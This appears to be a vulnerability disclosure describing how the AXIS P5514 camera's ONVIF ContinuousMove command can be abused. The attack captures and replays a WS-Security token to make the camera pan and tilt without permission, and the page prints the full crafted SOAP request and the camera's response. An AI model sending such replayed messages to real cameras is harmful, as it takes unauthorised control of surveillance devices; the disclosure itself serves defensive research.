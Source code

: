 ContinuousMove Vuln of Axis 5514 Camera 

This page show the details of the vulnerability found in AXIS 5514 Camera. AXIX-P5514 is not on sale now, but maybe some of them are still in use. 


Description

Attacker can remotely make Axis 5514 camera turn around on Pan&Tilt without permission by a customized message. In order to customize and inject attacking messages, a PoC with C++ Language was developed to modify captured request messages with function “ContinuousMove” in <Soap:Body> under the ONVIF specification. The PoC source code "axis_5514_continuousmove.cpp" is also posted here. The raw message was captured on line by Wireshark. And I got the SOAP packets from client to the  AXIS-P5514 camera, and filtered out the authentication information in SOAP head, such as: <wsse:UsernameToken><wsse:Username> username </wsse:Username><wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce><wsu:Created>20XX-03-12T09:12:15Z</wsu:Created></wsse:UsernameToken>. After capturing such packets, use the authentication information above to customize a message with function “ContinuousMove” in <Soap:Body> and then send the modified message to the AXIS-P5514 camera. Then the Axis 5514 camera can continually move on Pan&Tilt. 

The customized message is likely as follow.
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tt="http://www.onvif.org/ver10/schema">  <s:Header xmlns:s="http://www.w3.org/2003/05/soap-envelope">    
<wsse:Security xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/ oasis-200401-wss-wssecurity-utility-1.0.xsd">      
<wsse:UsernameToken>        
<wsse:Username>username</wsse:Username>        
<wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce>        
<wsu:Created>20XX-03-12T09:12:15Z</wsu:Created>      
</wsse:UsernameToken>   
 </wsse:Security>  
</s:Header>  
  <s:Body xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
    <ContinuousMove xmlns="http://www.onvif.org/ver20/ptz/wsdl">
      <ProfileToken>profile_1_h264</ProfileToken>
      <Velocity>
        <PanTilt x="1" y="1" space="http://www.onvif.org/ver10/tptz/PanTiltSpaces/VelocityGenericSpace" xmlns="http://www.onvif.org/ver10/schema" />
      </Velocity>
      <Timeout>PT30S</Timeout>
    </ContinuousMove>
  </s:Body>
</soap:Envelope>

the response message is likely as follow.

HTTP/1.1 200 OK
Server: gSOAP/2.7
Content-Type: application/soap+xml; charset=utf-8
Content-Length: 2940
Connection: close
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:c14n="http://www.w3.org/2001/10/xml-exc-c14n#" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:ds="http://www.w3.org/2000/09/xmldsig#" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:acert="http://www.axis.com/vapix/ws/cert" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:aa="http://www.axis.com/vapix/ws/action1" xmlns:acertificates="http://www.axis.com/vapix/ws/certificates" xmlns:aentry="http://www.axis.com/vapix/ws/entry" xmlns:aev="http://www.axis.com/vapix/ws/event1" xmlns:aeva="http://www.axis.com/vapix/ws/embeddedvideoanalytics1" xmlns:ali1="http://www.axis.com/vapix/ws/light/CommonBinding" xmlns:ali2="http://www.axis.com/vapix/ws/light/IntensityBinding" xmlns:ali3="http://www.axis.com/vapix/ws/light/AngleOfIlluminationBinding" xmlns:ali4="http://www.axis.com/vapix/ws/light/DayNightSynchronizeBinding" xmlns:ali="http://www.axis.com/vapix/ws/light" xmlns:apc="http://www.axis.com/vapix/ws/panopsiscalibration1" xmlns:arth="http://www.axis.com/vapix/ws/recordedtour1" xmlns:ascm="http://www.axis.com/vapix/ws/siblingcameramonitor1" xmlns:asd="http://www.axis.com/vapix/ws/shockdetection" xmlns:aweb="http://www.axis.com/vapix/ws/webserver" xmlns:tan1="http://www.onvif.org/ver20/analytics/wsdl/RuleEngineBinding" xmlns:tan2="http://www.onvif.org/ver20/analytics/wsdl/AnalyticsEngineBinding" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tev1="http://www.onvif.org/ver10/events/wsdl/NotificationProducerBinding" xmlns:tev2="http://www.onvif.org/ver10/events/wsdl/EventBinding" xmlns:tev3="http://www.onvif.org/ver10/events/wsdl/SubscriptionManagerBinding" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tev4="http://www.onvif.org/ver10/events/wsdl/PullPointSubscriptionBinding" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:tptz="http://www.onvif.org/ver20/ptz/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tnsaxis="http://www.axis.com/2009/event/topics"><SOAP-ENV:Header></SOAP-ENV:Header><SOAP-ENV:Body><tptz:ContinuousMoveResponse></tptz:ContinuousMoveResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>



References

https://www.axis.com/products/axis-p5514-e
